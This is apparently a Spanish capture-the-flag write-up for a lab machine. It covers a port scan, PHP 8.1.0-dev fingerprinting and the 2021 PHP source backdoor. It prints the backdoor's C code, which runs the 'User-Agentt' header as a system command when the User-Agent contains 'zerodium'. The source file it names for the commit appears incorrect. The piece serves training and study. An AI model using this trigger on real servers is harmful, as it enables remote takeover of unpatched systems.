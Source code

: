 ✅ **Respuesta**: `2` puertos TCP abiertos (22 y 80).

🧠 _Nota_: El escaneo completo (`-p-`) nos permite ver todos los puertos posibles. Aquí solo están abiertos dos.


### 🌐 Tarea 2 - ¿Qué versión de PHP corre en el servidor web?

**Comando usado:**

```bash
whatweb http://10.10.10.242/
```

**Resultado:**

![](../img/dd9c5e4b8852bc8529f80dfb1e44538f.png)

✅ **Respuesta**: `8.1.0-dev`

🧠 _Nota_: La versión `-dev` indica que es una versión de desarrollo y no estable. ¡Esto es una bandera roja! Puede contener vulnerabilidades no parcheadas.


### 🚨 Tarea 3 - ¿Qué cabecera HTTP permite ejecución remota en esta versión de PHP?

### 🧩 Contexto histórico de la vulnerabilidad

En **marzo de 2021**, el repositorio oficial de PHP fue **comprometido por un atacante**. Este atacante consiguió acceso al servidor Git donde se aloja el código fuente de PHP, y **inyectó un commit malicioso** en el archivo `main/rfc822.c`.

🔗 Commit real y oficial:  
📎 [2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)

### 📄 ¿Qué introducía ese commit?

Ese commit añadía este fragmento de código en C dentro del core de PHP:

```bash
if (strstr(user_agent, "zerodium")) {
    zend_eval_string("system($_SERVER['HTTP_USER_AGENTT']);", NULL, "REMOVETHIS");
}
```

🔍 Explicación:

- `strstr(user_agent, "zerodium")`: comprueba si el `User-Agent` contiene la palabra `"zerodium"`.
    
- Si es así, ejecuta el contenido de la cabecera `User-Agentt` como un comando de sistema usando `system()`.
